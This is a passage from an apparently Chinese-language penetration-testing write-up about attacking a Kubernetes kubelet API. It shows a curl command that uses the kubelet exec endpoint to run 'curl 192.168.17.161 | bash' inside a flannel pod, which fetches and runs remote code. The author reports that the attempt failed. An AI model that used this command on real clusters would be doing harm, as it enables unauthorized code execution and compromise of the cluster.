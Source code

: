 [![](assets/1701826061-75e897bb65a3460b621695ca74a10e3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171249-ab27145e-7316-1.png)  
发现并不行，之后尝试下面的语句 (主要换了 sh)

```plain
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.17.144:10250/exec/kube-system/kube-flannel-ds-xwk2t/kube-flannel?command=/bin/sh&command=-c&command=curl+192.168.17.161+|+bash&input=1&output=1&tty=1"
```

[![](assets/1701826061-62b1e624e8680efe4da9d7f76bb33ac0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171318-bcba57c6-7316-1.png)  
发现也为成功，可能是笔者这里的环境问题所致，下面给出一个成功的截图：
